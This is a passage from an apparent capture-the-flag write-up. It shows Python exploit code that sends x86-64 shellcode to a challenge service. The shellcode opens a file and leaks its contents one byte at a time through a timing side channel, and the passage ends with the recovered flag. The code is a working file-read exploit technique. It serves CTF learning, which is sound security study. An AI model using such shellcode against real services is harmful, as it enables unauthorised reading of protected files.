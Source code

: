 ```
        code  = filename
        code += asm("""
        open_file:
            mov rdi, 0x%lx
            xor rsi, rsi
            mov rax, 2
            syscall

        read_char_at_index:
            movsxd r15, eax
            mov r14, %d
            xor r14, 128
        read_char:
            movb [0x%lx], ah
            mov rax, 0
            mov rdi, r15
            mov rsi, 0x%lx
            mov rdx, 1
            syscall
            dec r14
            cmp r14, 0
            jnz read_char

        test_char:
            movb ah, [0x%lx]
            cmp ah, 0x%lx
            je $

        bad_char:
            mov rax, [0xffffffffffff]
        """ % (bss, (len(answer)+1)|128, bss, bss, bss, ord(target)))
        p.sendline(code)

        try:
            start = time.time()
            p.recvall(timeout=1)      
            if time.time() - start > 1:
                answer += target
                print(answer)
                break
        except:
            pass

    if current_len == len(answer):
        print "Flag: " + answer
        exit()
```

and got the flag: `DCTF{167d5c9df2265fec06b6c292aabdb8189f234e72f710c8a771bb9d5645163bdd}`
